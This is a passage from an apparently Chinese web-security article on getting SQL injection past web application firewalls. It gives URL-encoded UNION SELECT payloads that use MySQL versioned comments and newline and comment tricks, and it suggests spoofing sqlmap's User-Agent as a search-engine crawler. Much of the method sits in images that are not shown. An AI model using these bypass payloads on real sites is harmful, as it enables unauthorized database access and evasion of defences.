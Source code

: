 %20union%20/*!44509select*/%201,2,3 /*!44509select*/：通过插入版本号（4.45.09），绕过检测机制-
%20/*!44509union*/%23x%0aselect%201,2,3

id=1/**&id=-1%20union%20select%201,2,3%23*/ 特殊符号

%20union%20all%23%0a%20select%201,2,3%23

`

**有时注入语句没有问题，但是就是注入进不去，可能WAF检测了注入工具**

*   sqlmap发的包带了自己的工具头
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMh9IHSN20CXepLia1GzCe7HzIJjeicpuac4cs9S4EQCvVFIrCbFwCFrGUQ%2F640%3Fwx_fmt%3Dpng)
    
*   判定方法一：WAF日志
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhT4dYEWANyibgUcut0HQ50GIJTeqzBKrPLuiaST4SnaYVYe6bwzOFwdYQ%2F640%3Fwx_fmt%3Dpng)
    
*   判定方法二：WAF防护规则
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhazHrKIyxfUY2zsqngZJW4ic8hNxYm0vJSvGuljkRE8AwU5OdKe6s1OQ%2F640%3Fwx_fmt%3Dpng)
    
*   判定方法三：抓包
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMh6cibsYM0M7KFPQRribt4FBkTGNoAxPUVgbrI71dLHFXwCH3ob0o2icbvA%2F640%3Fwx_fmt%3Dpng)
    
*   解决方法：
    
*   思路一：采用salmap的随机agent头方法
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhuYWpwKhHzz0MgvJ9f4DKCygeY9djEZN3Ad2bCMvnSH4Xo2ZrgEQjjw%2F640%3Fwx_fmt%3Dpng)
    
*   思路二：采用搜索引擎的头
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhvKia5fuzsymbs0Hj2bX9O0ziaKw1xCdHWLR3mL4JXEeuqEKJ1GlBgaHA%2F640%3Fwx_fmt%3Dpng)
    
*   指定采用百度的头
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhPXPPfoDGYwlOFfuS868j0HWSpxvuecojiahgF6iaDxbcwEX1YH0wRpOg%2F640%3Fwx_fmt%3Dpng)
    

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhr9hzdXLjunsMs2mq7ecUvTDibKibTOmFL5LRfa3rYtRKkK03RiaRzqiaAw%2F640%3Fwx_fmt%3Dpng)

SQLMap说明

> 扩展一：有的WAF检测的是其他字段，可以使用burp抓包进行替换这个字段，来进行绕过。（只是修改一个） 扩展二：将注入语句生成txt文件，放在sqlmap目录下跑。（可以支持跑多个）
